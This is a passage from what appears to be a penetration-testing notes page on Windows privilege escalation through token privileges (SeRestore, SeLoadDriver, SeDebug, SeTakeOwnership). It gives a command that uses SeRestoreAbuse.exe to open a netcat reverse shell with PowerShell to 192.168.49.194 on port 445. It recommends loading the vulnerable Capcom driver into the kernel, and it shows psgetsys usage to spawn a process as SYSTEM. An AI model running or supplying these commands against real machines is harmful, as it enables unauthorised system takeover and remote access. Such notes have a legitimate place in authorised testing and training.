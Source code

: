 ```powershell
.\SeRestoreAbuse.exe "C:\temp\nc.exe 192.168.49.194 445 -e powershell.exe"
```



### SeLoadDriverPrivilege

This allows us to load and unload malicious drivers in kernel mode. TLDR: Very bad. The common approach is to upload the "CapCom" driver as it's easy to exploit. We can download the driver to our Windows VM and compile it, then transfer it to the vulnerable machine and load the driver.

Follow this blog post here and download capcom & required files:

{% embed url="https://www.tarlogic.com/blog/seloaddriverprivilege-privilege-escalation/" %}

### SeDebugPrivilege

Pretty much this:

{% embed url="https://devblogs.microsoft.com/oldnewthing/20080314-00/?p=23113" %}

{% embed url="https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1" %}

```powershell
import-module psgetsys.ps1; [MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>)
```

SeTakeOwnershipPrivilege
